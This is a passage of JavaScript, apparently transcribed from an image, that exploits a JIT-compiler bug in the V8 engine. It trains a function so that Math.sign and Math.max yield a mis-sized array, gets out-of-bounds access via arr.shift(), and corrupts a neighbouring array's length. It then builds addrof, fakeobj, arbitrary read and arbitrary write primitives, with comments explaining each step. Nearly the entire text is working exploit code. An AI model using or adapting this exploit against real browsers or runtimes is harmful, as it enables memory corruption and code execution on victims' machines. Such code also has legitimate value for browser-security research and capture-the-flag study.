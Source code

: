 ```javascript
    return float64[0];
}

function gc() {
    for (var i = 0; i < 0x80000; ++i) {
        var a = new ArrayBuffer();
    }
}

function foo(flag){
    let x = -1;
    if(flag){
        x = 0xFFFF_FFFF;
    }
    x = Math.sign(0 - Math.max(0,x,-1));
    var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}

for(var i = 0;i < 100000;i++)
    foo(false);
gc();gc();
var [oob_arr,corrupt_arr] = foo(true);
// %DebugPrint(oob_arr);
// %DebugPrint(corrupt_arr);
var idx = 6;
oob_arr[10+idx] = 0x8888;						// modify corrupt_arr.length to a big value

function addrof(k) {
    oob_arr[idx+1] = k;
    return f2i(corrupt_arr[0]) & 0xffffffffn;
}

function fakeobj(k) {
    corrupt_arr[0] = i2f(k);
    return oob_arr[idx+1];
}

var float_array_map = f2i(corrupt_arr[3]);		// leak corrupt_arr's map

var arr2 = [i2f(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);		// fake a FixedDoubleArray obj

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = i2f((2n << 32n) + addr - 8n);        // set fake's length and elements
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = i2f((2n << 32n) + addr - 8n);        // set fake's length and elements
    fake[0] = i2f(BigInt(val));
}
```
